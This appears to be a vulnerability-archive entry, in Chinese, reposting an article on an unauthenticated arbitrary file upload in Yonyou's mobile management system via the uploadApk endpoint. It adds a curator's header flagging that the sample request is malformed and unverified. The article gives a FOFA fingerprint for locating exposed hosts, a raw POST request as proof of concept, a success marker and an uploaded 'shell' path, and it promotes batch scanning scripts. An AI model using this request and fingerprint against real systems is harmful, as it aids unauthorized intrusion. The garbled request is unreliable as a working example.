




# 用友移动管理系统 uploadApk上传

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：用友移动管理系统；uploadApk上传
- 版本、配置及部署条件：旧版本无精确范围
- 认证与权限前提：声明无需登录
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Content-Type写form-urlencoded却multipart体，且name/filename丢失
- status2只代表应用响应，纯数字文件不能叫webshell或证命令执行
- FOFA误标题，修复仅首页，广告多

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NPZ0IU4aZgCjpwpo6licdQ)

用友移动管理系统存在任意文件上传漏洞 附 POC

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。

1. 用友移动管理系统简介
-------------

微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发

用友移动系统管理是用友公司推出的一款移动办公解决方案，旨在帮助企业实现移动办公、提高管理效率和员工工作灵活性。它提供了一系列功能和工具，方便用户在移动设备上管理和处理企业的系统和业务。

2. 漏洞描述
-------

用友移动系统管理旧版本 uploadApk 接口存在任意文件上传，攻击者可在无需登录的情况下上传恶意文件，执行任意命令。

CVE 编号:

CNNVD 编号:

CNVD 编号:

3. 影响版本
-------

用友移动系统管理旧版本 


4.fofa 查询语句
-----------

body="../js/jslib/jquery.blockUI.js"

5. 漏洞复现
-------

漏洞接口：http://127.0.0.1/maportal/appmanager/uploadApk.dopk_obj=

漏洞数据包：

```http
POST /maportal/appmanager/uploadApk.dopk_obj= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 196

--fa48ebfef59b133a8cd5275661b35d2c
Content-Disposition: form-data; 
Content-Type: application/msword

082863327
--fa48ebfef59b133a8cd5275661b35d2c--


```

> 请求长度说明：原资料 Content-Length 为 196；保留原始标头；其数值未据实际请求体重新计算或验证。

如果返回字符 {"status":2} 证明上传成功 



上传的 shell 地址拼接：

http://127.0.0.1/maupload/apk/59209.jsp



6.POC&EXP
---------

关注公众号  南风漏洞复现文库 并回复  漏洞复现 56  即可获得该 POC 工具下载地址： 



本期漏洞及往期漏洞的 nuclei 批量扫描脚本已经上传知识星球：南风网络安全 




7. 整改意见
-------

升级至最新版本 https://www.yonyou.com/

8. 往期回顾
-------

[金盘图书馆微信管理平台存在敏感信息泄露漏洞 附 POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484248&idx=1&sn=282f2a7af27fb7d720897f33ae06b898&chksm=974b8e5fa03c0749d653960b23d929651640da9dd11c5936fea6a39029926da66a133f7610ff&scene=21#wechat_redirect)  

[深信服 SG 上网优化管理系统存在任意文件读取漏洞 附 POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484236&idx=1&sn=d34e7fefd8dc62375c34e82d3d3adab6&chksm=974b8e4ba03c075d31cc5b3d77e62b465b2c87a8fdf0d1e58dc4c0af1467c677d656818831d5&scene=21#wechat_redirect)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
